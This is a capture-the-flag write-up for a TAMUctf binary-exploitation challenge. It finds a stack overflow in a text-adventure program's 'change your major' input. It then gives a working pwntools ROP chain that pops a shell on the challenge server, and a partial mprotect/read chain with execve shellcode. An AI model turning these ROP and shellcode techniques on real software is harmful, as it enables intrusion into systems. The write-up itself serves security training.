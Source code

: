The binary has the following protections set and is statically linked:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
We're greeted by a text adventure style game with a number of inputs.  
```
Welcome to the TAMU Text Adventure!
You are about to begin your journey at Texas A&M as a student
But first tell me a little bit about yourself
What is your first name?: 
```
The first set of inputs do not appear vulnerable to overflow, as they appear to accept fixed length buffer.  However, the `change your major` option will segfault when given a large input.
```
What is your first name?: 
What is your last name?: 
What is your major?: 
Are you joining the Corps of Cadets?(y/n): y

Welcome, 
 
, to Texas A&M!
You wake with a start as your sophomore yells "Wake up fish 
! Why aren't you with your buddies in the fallout hole?"
As your sophomore slams your door close you quickly get dressed in pt gear and go to the fallout hole.
You spend your morning excersizing and eating chow.
Finally your first day of class begins at Texas A&M. What do you decide to do next?(Input option number)
1. Go to class.
2. Change your major.
3. Skip class and sleep
4. Study
2
You decide that you are already tired of studying 
 and go to the advisors office to change your major
What do you change your major to?: 
```
We input a pattern to find the point at which we get EIP overwrite
```gdb
0x41412941 in ?? ()
gdb-peda$ pattern offset 0x41412941
1094789441 found at offset: 32
```

This one was honestly quite tricky.  The remote binary failed to correctly buffer it's input, so any commands sent wouldn't return any output.  This made the range of options much more limited. 

Since the binary is statically linked, a number of useful functions aren't compiled into the binary, and we can't perform a ret2libc anyway.  I noticed the `read` and `mprotect` functions were available, so I attempted to use the `read` function to write a '/bin/sh' string to 

Given the buffer issues however this worked locally, but not remotely.  Instead we can use two gadgets to pop wanted values into two registers and a `mov [ecx], edx` gadget to achieve arbitrary memory write.  We write these into the .bss binary section.
```python
from pwn import *
r = remote('pwn.ctf.tamu.edu', 4325)

r.sendline('')
r.sendline('')
r.sendline('')
r.sendline('y')
r.sendline('2')

mov_gadget = 0x8067f91  #  mov [ecx],edx; pop ebx; ret
pop_gadget = 0x080733b0 # pop edx; pop ecx; pop ebx; ret

bss_addr = 0x080f0f80

pop_ebx  = 0x0806b400   # pop ebx; ret;
pop_ecx  = 0x080e4325   # pop ecx; ret;
pop_edx  = 0x080ea949   # pop edx; ret;
pop_eax  = 0x080bc396   # pop eax; ret;
int_x80  = 0x08073990   # int 0x80

rop = p32(pop_gadget)
rop += '/bin'
rop += p32(bss_addr)
rop += p32(0x0)

rop += p32(mov_gadget)
rop += p32(0x0)

rop += p32(pop_gadget)
rop += '/sh\x00'
rop += p32(bss_addr+4)
rop += p32(0x0)

rop += p32(mov_gadget)
rop += p32(0x0)

rop += p32(pop_ebx) 					# pop ebx; ret;
rop += p32(bss_addr) 					# .bss

rop += p32(pop_ecx)  				    # pop ecx; ret;
rop += p32(0x0)							# No args please

rop += p32(pop_edx) 					# pop edx; ret;
rop += p32(0x0)							# No args please

rop += p32(pop_eax)	# pop eax; ret;
rop += p32(11)							# exec syscall value
rop += p32(int_x80) # int 0x80

buf = 'A'*32 + rop

r.sendline(buf)
r.interactive()
```

Running the above and we're returned a shell!

```
root@kali:~/Desktop/tamuctf# python pwn5_test.py 
[+] Opening connection to pwn.ctf.tamu.edu on port 4325: Done
[*] Switching to interactive mode
$ id
uid=1000(pwnuser) gid=1001(pwnuser) groups=1001(pwnuser),1000(ctf)
$ cat flag.txt
gigem{r37urn_0f_7h3_pwn}
```
The read ROP chain (which worked locally but not remotely), sets the .bss location as executable using ret2mprotect, and then uses `read` to allow us to write a payload into that section, which we then jump to:
```python
read_func = 0x8071950
bss_addr = 0x8048000
pop3ret = 0x80483e8
mprotect = 0x8072450

#classic execve payload
payload='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

rop  = p32(mprotect)
rop += p32(pop3ret)
rop += p32(bss_addr)
rop += p32(0x121)
rop += p32(0x7)

rop += p32(read_func)
rop += p32(bss_addr)
rop += p32(0x0)
rop += p32(bss_addr)
rop += p32(len(payload))
```
